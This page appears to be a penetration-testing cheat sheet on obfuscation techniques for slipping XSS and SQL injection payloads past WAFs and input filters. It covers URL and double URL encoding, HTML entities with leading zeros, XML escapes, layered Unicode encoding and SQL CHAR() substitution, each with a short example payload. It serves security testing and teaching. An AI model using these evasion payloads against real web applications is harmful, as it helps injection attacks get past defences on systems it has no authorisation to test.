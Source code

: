 # General Obfuscation

{% hint style="info" %}
**Note**: for Javascript obfuscation go on [javascript-security-considerations.md](javascript-security-considerations.md "mention")
{% endhint %}

## <mark style="color:yellow;">URL encoding</mark> <a href="#obfuscation-via-url-encoding" id="obfuscation-via-url-encoding"></a>

Sometimes, WAFs may fail to properly URL decode your input during checks.

-> Encode the keywords, so `SELECT` becomes `%53%45%4C%45%43%54`.

### <mark style="color:yellow;">Double URL encoding</mark> <a href="#obfuscation-via-double-url-encoding" id="obfuscation-via-double-url-encoding"></a>

Since the WAF decodes the input only once, it may fail to detect the threat. If the back-end server double-decodes it, the payload will be injected successfully.

```
[...]/?search=%253Cimg%2520src%253Dx%2520onerror%253Dalert(1)%253E
```

### <mark style="color:yellow;">HTML encoding</mark> <a href="#obfuscation-via-html-encoding" id="obfuscation-via-html-encoding"></a>

In certain HTML locations, like element text or attribute values, browsers automatically decode these references when parsing.

Server-side checks for alert() may miss it if you HTML encode characters.

```html
<img src=x onerror="&#x61;lert(1)">
```

When the browser renders the page, it will decode and execute the injected payload.

**Leading zeros**

HTML encode `:` -> `&#58;` = `&#0000000000058;`

`<a href="javascript&#00000000000058;alert(1)">Click me</a>`

## <mark style="color:yellow;">XML encoding</mark>

XML supports character encoding with the same numeric escape sequences as HTML.

```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

## <mark style="color:yellow;">Multiple encodings</mark> <a href="#obfuscation-via-multiple-encodings" id="obfuscation-via-multiple-encodings"></a>

```html
<a href="javascript:&bsol;u0061lert(1)">Click me</a>
```

(HTML) `&bsol;` -> `\`

```html
<a href="javascript:\u0061lert(1)">Click me</a>
```

(Unicode) `\u0061` -> `a`

```html
<a href="javascript:alert(1)">Click me</a>
```

## <mark style="color:yellow;">SQL CHAR() function</mark> <a href="#obfuscation-via-the-sql-char-function" id="obfuscation-via-the-sql-char-function"></a>

`CHAR(83)` = `CHAR(0x53)` = `S`

`SELECT` is blacklisted ->

```sql
CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)
```
